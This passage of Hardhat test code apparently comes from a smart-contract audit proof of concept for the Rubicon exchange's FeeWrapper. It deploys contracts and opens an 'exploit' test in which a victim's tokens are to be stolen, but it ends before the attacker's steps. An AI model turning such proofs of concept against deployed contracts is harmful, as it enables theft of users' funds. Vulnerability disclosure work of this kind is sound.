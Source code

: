```
    await rubiconMarket.functions["offer(uint256,address,uint256,address)"](
      parseUnits("100"),
      testCoin.address,
      parseUnits("110", 6),
      testStableCoin.address,
      { from: owner.address }
    );

    const RubiconRouter = await ethers.getContractFactory("RubiconRouter");
    const router = await RubiconRouter.deploy();
    await router.startErUp(rubiconMarket.address, weth.address);

    // fee wrapper
    const FeeWrapper = await ethers.getContractFactory("FeeWrapper");
    const feeWrapper = await FeeWrapper.deploy();

    // 3rd party protocol
    const PepeFinance = await ethers.getContractFactory("Some3rdPartyProtocol");
    const pepeFinance = await PepeFinance.deploy(
      feeWrapper.address,
      FEE_TO,
      rubiconMarket.address
    );

    await testCoin!.connect(owner).approve(router.address, parseUnits("320"));

    return {
      rubiconMarket,
      testCoin,
      owner,
      otherAccount,
      testStableCoin,
      weth,
      cWETH,
      router,
      feeWrapper,
      pepeFinance,
      attacker,
      victim
    };
  }
  it("Exploit steal all tokens from offers created with the `FeeWrapper`", async function () {
    const { testCoin, testStableCoin, pepeFinance, rubiconMarket, feeWrapper, attacker, victim } = await loadFixture(
      deployRubiProtocolFixture
    );

    let victimBalance = Number(await testCoin.balanceOf(victim.address))
    console.log("The victim has a lot of tokens. Victim's balance = ", victimBalance)

    // Victim puts all his hard-earned money into an offer
    let pay_amt = testCoin.balanceOf(victim.address);
    await testCoin
      .connect(victim)
      .approve(pepeFinance.address, pay_amt);
    await pepeFinance.connect(victim).executeOffer(
      pay_amt,
      testCoin.address,
      parseUnits("110"),
      testStableCoin.address,
      0
    );
    // This is the 3rd offer, hence it would get and ID of 3
```